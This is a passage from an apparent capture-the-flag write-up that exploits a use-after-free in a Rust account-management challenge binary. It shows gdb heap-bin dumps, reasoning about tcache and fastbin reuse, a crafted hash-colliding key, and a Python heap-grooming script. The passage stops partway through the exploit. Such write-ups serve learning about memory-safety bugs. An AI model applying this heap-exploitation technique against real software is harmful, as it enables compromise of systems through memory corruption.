 `bins` takes one of the 4 sizes to determine how long the string should be, and `b` to determine which bin you want an account placed into. I've also created
some functions that simply wrap the menu choices, simply to make it easier on myself when actually writing the exploit.

## For real this time
Before we do anything, our malloc bins look like this.
```
(gdb) heapinfoall

(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x55d5f91fbad0 (size : 0x1e530)
       last_remainder: 0x0 (size : 0x0)
            unsortbin: 0x0
(0x80)   tcache_entry[6](1): 0x55d5f91f9480
(0x100)   tcache_entry[14](1): 0x55d5f91f9910
(0x1e0)   tcache_entry[28](1): 0x55d5f91f92a0
```
Now recall that our key gets freed in addition to the name payload. If we want to access the content again to perform a UAF read, we'd need to predict what
happens to the key after it gets freed. Luckily, the fastbins provide a way out. The first 8 bytes of the allocated content in a fastbin (once freed)
point to the next chunk. If we could fill the tcache up and make this the first element in the fastbin, we could control the exact content of `key`. The next
pointer would then be null (setting the first 8 bytes to null), and because Rust strings are not C strings (they have a length instead of being null-terminated),
the comparison works perfectly fine. With a bit of testing to ensure that both forms would map to the same bucket,
the key `0000000033100000000000000000000000000000000000000000000000000000` was found.

Next up was simply iterating and testing the code. I experimentally determined the values I needed to fill up the tcache and no more, (there's some fun/weird
allocation shenanigans going on, but that's for a bit later). We make the sizes of the id and the name differ to make sure they don't colliide and make our
job harder.

```python
num_fill_tcache = 5 # 5 x 128 bytes + 5 x 64 bytes
for i in range(num_fill_tcache):
    t = pop_id(sixfour, 14)
    new_acct(t, b'A' * 128)
    free_in_x_funds(t, i + 1)
    p.clean()

# 1 x 128 bytes
t1 = pop_id(onetwoeight, 14)
new_acct(t1, b'')
free_in_x_funds(t1, num_fill_tcache + 1)
num_fill_tcache = num_fill_tcache + 1
p.clean()

# 64 bit string calculated that replacing the first 8 bytes
# with \u{0} won't change the hash
first_uaf = b"0000000033100000000000000000000000000000000000000000000000000000" # bin 13
new_acct(first_uaf, b'A' * 128)
```